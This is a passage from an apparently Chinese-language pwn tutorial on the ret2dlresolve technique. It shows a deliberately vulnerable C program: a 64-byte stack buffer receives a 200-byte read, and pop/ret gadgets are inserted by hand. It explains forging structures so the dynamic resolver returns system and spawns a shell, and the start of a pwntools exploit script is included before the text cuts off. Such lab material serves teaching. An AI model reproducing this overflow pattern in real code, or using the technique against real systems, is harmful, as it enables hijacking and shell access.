 但是编译出来后发现真 TM 坑，没有控制前三个参数的 gadgets，导致我们不能写入伪造的结构体……所以为了实验的顺利进行，我只得手动插入几个 gadgets 了：

```c
#include <unistd.h>

void free_gadgets() {
  __asm__("pop %rdi; ret");
  __asm__("pop %rsi; ret");
  __asm__("pop %rdx; ret");
}

void vuln(void) {
  char buf[64];

  read(STDIN_FILENO, buf, 200);
}

int main(int argc, char **argv) { vuln(); }
```

程序很简单，从 `stdin` 读取了 200 字节数据到 `buf`，由于 `buf` 只有可怜的 64 字节空间，故存在 136 字节溢出空间。空间如此之充裕，让我们有足够的余地来编排一曲邪恶的代码交响乐，演绎攻击者的狂想曲。

我们的目标是通过 `ret2dlresolve` 技术来 getshell. 思路大致应该是：将伪造的用于解析 `system` 符号的结构体放到一个 `rw` 空间，并提前设置好 `system` 函数要用到的参数，也就是将 `rdi` 设为 `/bin/sh` 字符串的地址。接着在栈上布置我们伪造的结构的地址，以便 `_dl_runtime_resolve` 引用我们伪造的这个结构体来解析符号。现在我们调用 `_dl_runtime_resolve` 就会解析出 `system` 的地址，根据我们先前设置好的参数，程序会乖乖的 spawn a shell.

### Exploit

```python
#!/usr/bin/python3

from contextlib import contextmanager

from pwn import (
    ELF,
    ROP,
    Ret2dlresolvePayload,
    context,
    flat,
    gdb,
    log,
    process,
    remote,
)

context(log_level="debug", terminal="kitty")

FILE = "./ret2dlresolve"
HOST, PORT = "localhost", 1337

gdbscript = """
b *vuln+25
c
"""


@contextmanager
def launch(local=True, debug=False, aslr=False, argv=None, envp=None):
    target = None

    try:
        if local:
            global elf

            elf = ELF(FILE)
```